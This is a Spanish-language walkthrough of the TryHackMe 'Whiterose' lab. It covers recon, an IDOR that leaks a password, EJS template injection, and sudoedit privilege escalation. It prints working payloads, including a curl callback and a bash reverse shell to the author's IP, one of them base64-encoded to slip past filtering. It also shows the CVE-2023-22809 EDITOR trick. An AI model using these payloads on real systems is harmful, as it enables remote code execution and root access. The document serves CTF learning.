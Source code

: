 *****

![Imagen1](attachments/Pasted image 20250203213856.png)

#easy

******

Al unirnos al room de THM nos dan un username y password que será importantes tenerlos en cuenta:

~~~bash
username: Olivia Cortez
password: olivi8
~~~


Realizamos un escaneo con **Nmap** para poder observar los servicios que usan:

~~~bash
sudo nmap -sS --min-rate 5000 --open -vv -p- -n -Pn whiterose.thm
~~~

![[Pasted image 20250203214511.png]]

Como podemos ver, tienen el `22` y `80` abiertos. Al ingresar a la pagina web esta nos redirige a otra:

`cyprusbank.thm`

![[Pasted image 20250203214630.png]]

Pasamos a realizar un fuzzing de directorios con gobuster, pero no nos muestra nada interesante.

~~~bash
gobuster dir -u 'http://cyprusbank.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
~~~

Con ffuf realizamos fuzzing de subdominios y vemos que nos dan 2 subdominios:

`www.cyprusbank.thm` `admin.cyprusbank.thm`

~~~bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
~~~

![[Pasted image 20250203215214.png]]

>[!note]
>`-fw` nos ayuda a descartar falsos positivos en el fuzzing


`www.cyprusbank.thm` no hay nada, sin embargo en `admin.cyprusbank.thm` nos muestra un login donde podemos intentar poner las credenciales del inicio.


![[Pasted image 20250203215438.png]]

Al ingresar con la cuenta de Olivia podemos ver varias cosas interesantes y donde podemos encontrar una de las primeras flag del room.

![[Pasted image 20250203220037.png]]

No podemos ingresar a settings, al parecer no tenemos privilegios.

![[Pasted image 20250203220137.png]]

Pero en mensajes podemos ver algo que me resulto interesante:

![[Pasted image 20250203220242.png]]

En la url podemos ver `c=5` y al cambiar los valores encontramos un IDOR que nos deja observar otros mensajes:

![[Pasted image 20250203220405.png]]

Al explorarlo mas al fondo, damos con una conversación donde el user `Gayle Bev` escribe su password `p~]P@5!6;rs558:q`, y al ingresar con su sesión podemos obtener la primera flag.

*****

Una vez iniciado la sesión de `Gayle Bev` podemos ingresar al apartado de de settings de la web page. En esta podemos actualizar passwords de usuarios:

![[Pasted image 20250203221334.png]]

Al revisar la solicitud con Burpsuite podemos modificar varios puntos para checar la posibilidad de XSS o SSTI. Interceptamos la request y omitimos el passwords y podemos ver que nos contesta con el siguiente error:

![[Pasted image 20250203221618.png]]

En este mensaje podemos observar que están usando `.ejs` (Embedded JavaScript templates), lo que indica que el servidor renderiza plantillas dinámicas. Dado que `.ejs` es vulnerable a **Server-Side Template Injection (SSTI)** si no se maneja correctamente la entrada del usuario, podemos buscar payloads específicos para explotar este tipo de vulnerabilidad en `ejs` y evaluar si es posible ejecutar código en el servidor.

~~~javascript
%%1");process.mainModule.require('child_process').execSync('calc');//
~~~

https://github.com/mde/ejs/issues/720

Modificamos el payload para realizar un curl a nuestro Python server.

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.8.27.189:6666');//
~~~

![[Pasted image 20250203222756.png]]

![[Pasted image 20250203222807.png]]

Con esto confirmamos que es un **SSTI**, ahora podemos intentar para explotar una RCE, para esto podemos crear un reverse Shell (https://www.revshells.com/):

![[Pasted image 20250203223016.png]]

Modificamos nuestro payload para que ejecute la reverse:

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.8.27.189/6666 0>&1');//
~~~

Pero al parecer nos esta filtrando la request, entonces aquí podemos encodearlo en base64 para intentar pasarlo.

~~~js
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMjcuMTg5LzY2NjYgMDA+JjE= | base64 -d | bash"');//  
~~~

![[Pasted image 20250203224626.png]]

Listo, tenemos acceso a la maquina donde podemos encontrar la siguiente flag, pero antes podemos mandar a llamar una Shell interactiva con python:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

![[Pasted image 20250203224739.png]]

******
Ahora para escalar privilegios podemos observar primero que podemos hacer con sudo:

~~~bash
sudo -l
~~~

Y aqui podemos ver algo que podemos explotar:

![[Pasted image 20250203224920.png]]

Podemos checar la versión que usa `sudoedit` con `sudoedit -V` y podemos ver que usa la versión `1.9.12p1`

![[Pasted image 20250203225015.png]]

Al investigar encontramos que existe un CVE para esta versión de `sudoedit`

~~~bash
CVE-2023-22809
~~~

Ahora con lo que encontramos acerca de esta CVE podemos cambiar la variable para que nos muestre la flag de root:

~~~bash
export EDITOR="vi -- /root/root.txt"
~~~

Ya solo queda ejecutar el comando que vimos al principio y aquí tendremos nuestra siguiente y ultima flag:

~~~bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
~~~

